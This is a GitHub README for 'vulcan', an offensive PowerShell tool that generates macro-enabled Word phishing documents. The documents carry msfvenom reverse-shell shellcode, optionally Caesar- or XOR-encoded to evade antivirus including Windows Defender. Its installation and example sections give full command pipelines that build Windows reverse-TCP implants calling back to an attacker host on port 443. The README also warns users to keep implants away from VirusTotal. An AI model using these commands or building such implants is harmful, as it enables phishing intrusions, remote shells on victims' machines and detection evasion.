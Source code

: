 # vulcan

[![Language](https://img.shields.io/badge/Lang-PowerShell-blue.svg)](https://docs.microsoft.com/en-gb/powershell/)
[![License](https://img.shields.io/badge/License-BSD%203-red.svg)](https://opensource.org/licenses/BSD-3-Clause)

## A `PowerShell` script that simplifies life and therefore... phishing. 🎣

A `PowerShell` script to automate the creation of consitent and efficient macro-enabled `Word` documents. At the time of writing, the `indirect` template yields great results at evading most AVs, including `Windows Defender` in some cases.

This `PowerShell` script can be viewed as *kind of* a third-party add-on to [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) - made possible thanks to [Windows Subsystem for Linux](https://docs.microsoft.com/en-us/windows/wsl/install) - that leverage templates to quickly and easily - *encoded* - create `Word` implants.

Users/stargazers are greatly encouraged toward contributing to improving and extending this project. 🐺

### ⚠️ Do not be a dummy... NEVER submit any implant to VirusTotal. 🤢

## Features

- Decoding routines/functions (`.\assets\decoders`) -> **do not hesitate to submit new templates**.
- Piping of shellcodes allowing for complex transformations in order to evade AVs.
- `Visual Basic` templating (`.\assets\templates`) -> **do not hesitate to submit new templates**.
- Work-around `Visual Basic` line-continuation limitations using `-Treshold`.

## Requirements

- [Windows Subsystem for Linux](https://docs.microsoft.com/en-us/windows/wsl/install) with [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) installed.

## Installation

1. Clone this repository:

    ```powershell
    git clone https://github.com/aress31/vulcan
    cd vulcan
    ```

2. Load the `PowerShell` scripts:

    ```powershell
    Import-Module -Name .\Vulcan.psm1
    ```

3. (Optional) List available commands:

    ```powershell
    Get-Module -Name vulcan | select -ExpandProperty ExportedFunctions
    ```

4. Run `vulcan`:

    ```powershell
    wsl --exec msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | `
        Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.vba"
    ```

> Although obvious, `windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread` is a placeholder in the above example... 🙄

## Usage

`Get-Help -Name Invoke-Vulcan` is your friend... Your best friend is `Get-Help -Name Invoke-Vulcan -Detailed`. Nonetheless, `Invoke-Vulcan` must be fed a `hex`-formatted shellcode. This can be achieved with:

```powershell
Get-Content -Path $ShellCode | Invoke-Vulcan ...
```

```powershell
wsl --exec msfvenom ... -f hex | Invoke-Vulcan ...
```

### Examples

- Embed a `plain` shellcode:

    ```powershell
    wsl --exec msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | `
        Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.vba"
    ```

- Embed a `Caesar`-encoded shellcode:

    ```powershell
    wsl --exec msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | `
        Invoke-Caesar -Key 5 | `
        Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.vba" -Decoder xor -DecoderPath ".\assets\decoders\caesar.vba" -Key 5 -Verbose
    ```

- Embed a `XOR`-encoded shellcode:

    ```powershell
    wsl --exec msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | `
        Invoke-XOR -Key "Star&WatchThisRepository" | `
        Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.vba" -Decoder xor -DecoderPath ".\assets\decoders\xor.vba" -Key "Star&WatchThisRepository" -Verbose
    ```

    > [!WARNING]
    > The length of the key must be shorted than the shellcode.

> Although obvious, `windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread` is a placeholder in the above examples... 🙄

## Sponsor 💓

If you want to support this project and appreciate the time invested in developping, maintening and extending it; consider donating toward my next (cup of coffee ☕/lamborghini 🚗) - as **a lot** of my **personal time** went into creating this project. 😪

It is easy, all you got to do is press the `Sponsor` button at the top of this page or alternatively [click this link](https://github.com/sponsors/aress31). 😁

## Reporting Issues

Found a bug 🐛? I would love to squash it!

Please report all issues on the GitHub [issues tracker](https://github.com/aress31/vulcan/issues).

## Contributing

You would like to contribute to better this project? 🤩

Please submit all `PRs` on the GitHub [pull requests tracker](https://github.com/aress31/vulcan/pulls).

## Acknowledgements

Give to Caesar (no pun intended 🙄) what belongs to Caesar:

- [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

## License

`vulcan` is primarily distributed under the terms of the `BSD 3`.

See [LICENSE](./LICENSE) for details.